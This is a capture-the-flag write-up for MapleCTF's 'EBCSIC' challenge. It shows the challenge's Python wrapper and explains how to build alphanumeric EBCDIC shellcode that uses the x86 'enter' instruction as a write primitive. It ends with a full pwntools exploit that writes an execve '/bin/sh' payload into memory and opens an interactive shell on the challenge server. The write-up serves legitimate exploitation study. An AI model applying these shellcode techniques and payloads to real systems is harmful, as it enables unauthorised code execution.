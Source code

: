 ### EBCSIC

![info](./pics/info.png)

**EBCSIC** was a restricted shellcode challenge from MapleCTF,

the challenge file provided a python script wrapper, that read the shellcode, verify that it is correct and execute it.

```python
#!/usr/bin/env python3
import string
import ctypes
import os
import sys
import subprocess

ok_chars = string.ascii_uppercase + string.digits
elf_header = bytes.fromhex("7F454C46010101000000000000000000020003000100000000800408340000000000000000000000340020000200280000000000010000000010000000800408008004080010000000000100070000000000000051E5746400000000000000000000000000000000000000000600000004000000")

print("Welcome to EBCSIC!")
sc = input("Enter your alphanumeric shellcode: ")
try:
    assert all(c in ok_chars for c in sc)
    sc_raw = sc.encode("cp037")
    assert len(sc_raw) <= 4096
except Exception as e:
    print("Sorry, that shellcode is not acceptable.")
    exit(1)

print("Looks good! Let's try your shellcode...")
sys.stdout.flush()

memfd_create = ctypes.CDLL("libc.so.6").memfd_create
memfd_create.argtypes = [ctypes.c_char_p, ctypes.c_int]
memfd_create.restype = ctypes.c_int

fd = memfd_create(b"prog", 0)
os.write(fd, elf_header)
os.lseek(fd, 4096, 0)
os.write(fd, sc_raw.ljust(4096, b"\xf4"))
os.execle("/proc/self/fd/%d" % fd, "prog", {})
```

you can send a shellcode composed only of `ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789` chars, of a max len of 4096.

That input is converted to `cp037` charset:

![cp037](./pics/cp037.png)

so in the end, as you can see in this table , it translates to this possible opcodes:

`c1 c2 c3 c4 c5 c6 c7 c8 c9 d1 d2 d3 d4 d5 d6 d7 d8 d9 e2 e3 e4 e5 e6 e7 e8 e9 f0 f1 f2 f3 f4 f5 f6 f7 f8 f9`

then the wrapper cleverly use `memfd_create` to create an elf file in memory, and execute it via `execle`.

the shellcode will be executed as a 32bit ELF file so, at a fixed mapped address of 0x8048000,

the code zone will be mapped as a RWX zone as you can check with `readelf -a` on the file

```bash
Type           Décalage Adr. vir.  Adr.phys.  T.Fich. T.Mém.  Fan Alignement
LOAD           0x001000 0x08048000 0x08048000 0x01000 0x10000 RWE 0
GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x4
```

### So what...

so the trick I used was to use `enter` instruction to write `ebp` register content, to `esp-4` address,

it will be our write primitive so...

and to set registers ebp and esp to the values we want:

I used this macro for example to set a bit to 0 or 1 in `esp`:

```python
set_esp_1 = mov_cl_F1 + shr_ecx_1 + rcl_esp_1
set_esp_0 = mov_cl_F2 + shr_ecx_1 + rcl_esp_1
```

we put a value in `cl` register with bit 0 set or unset,   shift this value right , the LSB bit will be put in `C` flag, then use `RCL esp, 1` to put `C` flag in LSB of `esp`

like this , we can put bit by bit any value we want in `esp`

we did the same with `ebp`.

with our write primitive, we wrote a shellcode at address `0x8048000 + 0xc200` in the RWX zone

then as `enter` also leave the address written before the data written in memory (as a stack frame)

we just use `ret` instruction in the end to jump in our classical `execve` shellcode..

Here is the resulting shellcode:

```python
from pwn import *
context.update(arch="i386", os="linux")
context.log_level = 'error'
import sys

rcl_ecx_1 = 'JJ'
rcl_edx_1 = 'JK'
rcl_ebx_1 = 'JL'
rcl_esp_1 = 'JM'
rcl_ebp_1 = 'JN'
rcl_esi_1 = 'JO'
rcl_edi_1 = 'JP'
rcr_eax_1 = 'JQ'
rcr_ecx_1 = 'JR'

rol_ecx_1 = 'JA'
rol_edx_1 = 'JB'
rol_ebx_1 = 'JC'
rol_esp_1 = 'JD'
rol_ebp_1 = 'JE'
rol_esi_1 = 'JF'
rol_edi_1 = 'JG'
ror_eax_1 = 'JH'
ror_ecx_1 = 'JI'

neg_al = '6Q'
not_dh = '6O'
shr_eax_1 = '33JY'
rcl_ah_cl = 'KM'
mov_cl_F1 = 'FA1'
mov_cl_F2 = 'FA2'
shr_ecx_1 = 'JR'
mov_dl_F7 = 'FB7'
enter = 'HAAA'

shellc2 = asm('''
  push 11
  pop eax
  push   ebx
  push   0x68732f2f
  push   0x6e69622f
  mov    ebx,esp
  xor ecx,ecx
  int    0x80
''')

print(hexdump(shellc2))
set_esp_1 = mov_cl_F1 + shr_ecx_1 + rcl_esp_1
set_esp_0 = mov_cl_F2 + shr_ecx_1 + rcl_esp_1

set_ebp_1 = mov_cl_F1 + shr_ecx_1 + rcl_ebp_1
set_ebp_0 = mov_cl_F2 + shr_ecx_1 + rcl_ebp_1

shellcode = ''

def write(addr, value):
  global shellcode
  for i in range(32):
    if (addr & (1<<(31-i))):
      shellcode += set_esp_1
    else:
      shellcode += set_esp_0
  for i in range(32):
    if (value & (1<<(31-i))):
      shellcode += set_ebp_1
    else:
      shellcode += set_ebp_0
  shellcode += enter

dest = 0x8048000 + 0xc200

# write shellcode to memory with enter
write(dest+4+0x10, u32(shellc2[0x10:0x14]))
write(dest+4+0x0c, u32(shellc2[0x0c:0x10]))
write(dest+4+0x08, u32(shellc2[0x08:0x0c]))
write(dest+4+0x04, u32(shellc2[0x04:0x08]))
write(dest+4, u32(shellc2[0:0x4]))

# set esp to shellcode pointer before it
addr = 0x080541fc
for i in range(32):
  if (addr & (1<<(31-i))):
    shellcode += set_esp_1
  else:
    shellcode += set_esp_0
# jump to shellcode
shellcode += 'C'	# ret

if args.REMOTE:
  p = remote('ebcsic.ctf.maplebacon.org', 1337)
else:
  p = process('python3 ./chal.py', shell=True)

p.sendlineafter('shellcode: ', shellcode)

p.interactive()
```

*nobodyisnobody still pwning things...*